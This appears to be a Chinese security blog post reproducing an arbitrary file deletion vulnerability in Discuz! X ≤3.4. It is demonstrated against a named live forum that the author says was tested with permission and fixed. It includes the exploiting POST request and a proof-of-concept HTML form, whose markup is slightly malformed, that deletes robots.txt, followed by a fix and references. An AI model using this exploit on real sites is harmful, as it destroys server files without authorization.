 ```yaml
---
layout: post
title: "Discuz x Arbitrary file deletion"
subtitle: "Discuz x 任意文件删除复现"
date: 2019-01-17
author: ppbibo
category: security
category: 漏洞复现
finished: true
---
```

[TOC]

# Discuz x 任意文件删除复现

Discuz x Arbitrary file deletion



#### 前言：

上次爆出过dz任意删除文件的漏洞，这次正好测试一下。

域名： [http://bbs.czxy.com](http://bbs.czxy.com/)

标题： 传智专修学院社区_传智专修学院交流社区 - Powered by Discuz!

后台URL：[http://bbs.czxy.com/admin.php](http://bbs.czxy.com/admin.php)

CMS & Version：Discuz x3.3

 • 对传智专修学院社区进行安全测试。

 • 已修复。

##### 影响范围

Discuz!X ≤3.4

#### 复现过程：

访问：[http://bbs.czxy.com/robots.txt](http://bbs.czxy.com/robots.txt)

[![QQ20190117-142633@2x](/static/img/QQ20190117-142633@2x.png)](/static/img/QQ20190117-142633@2x.png)

登录用户访问：

[http://bbs.czxy.com/home.php?mod=spacecp&ac=profile](http://bbs.czxy.com/home.php?mod=spacecp&ac=profile)

查看源代码下formhash的值

[![QQ20190117-142618@2x](/static/img/QQ20190117-142618@2x.png)](/static/img/QQ20190117-142618@2x.png)

```
请求：http://bbs.czxy.com/home.php?mod=spacecp&ac=profile

POST提交：

birthprovince=robots.txt&profilesubmit=1&formhash=ba84488f
```

[![QQ20190117-142704@2x](/static/img/QQ20190117-142704@2x.png)](/static/img/QQ20190117-142704@2x.png)

#### 构造poc

**Filename : Poc.html**

```
<form>

action="http://bbs.czxy.com/home.php?mod=spacecp&ac=profile&op=base&deletefile[birthprovince]=zsdlove" method="POST" enctype="multipart/form-data">

<input type="file" name="birthprovince" id="file" /> <br><br>

<input type="text" name="formhash" value="ba84488f"/><br><br>

<input type="text" name="profilesubmit" value="1"/><br><br>

<input type="submit" value="Submit" />

</from>
```

[![QQ20190117-142720@2x](/static/img/QQ20190117-142720@2x.png)](/static/img/QQ20190117-142720@2x.png)

上传任意图片提交，访问[http://bbs.czxy.com/robots.txt](http://bbs.czxy.com/robots.txt)

[![QQ20190117-143006@2x](/static/img/QQ20190117-143006@2x.png)](/static/img/QQ20190117-143006@2x.png)

/robots.txt 文件已被删除。

#### 修复方案

https://www.sinesafe.com/article/20171006/discuz3.2.html

删除unlink相关代码。

```
# 备份的robots.txt
# robots.txt for Discuz! X3
#

User-agent: *
Disallow: /api/
Disallow: /data/
Disallow: /source/
Disallow: /install/
Disallow: /template/
Disallow: /config/
Disallow: /uc_client/
Disallow: /uc_server/
Disallow: /static/
Disallow: /admin.php
Disallow: /search.php
Disallow: /member.php
Disallow: /api.php
Disallow: /misc.php
Disallow: /connect.php
Disallow: /forum.php?mod=redirect*
Disallow: /forum.php?mod=post*
Disallow: /home.php?mod=spacecp*
Disallow: /userapp.php?mod=app&*
Disallow: /*?mod=misc*
Disallow: /*?mod=attachment*
Disallow: /*mobile=yes*
```

##### 参考链接

https://www.sinesafe.com/article/20171006/discuz3.2.html

[http://www.freebuf.com/vuls/149904.html](http://www.freebuf.com/vuls/149904.html)

https://xz.aliyun.com/t/34#toc-5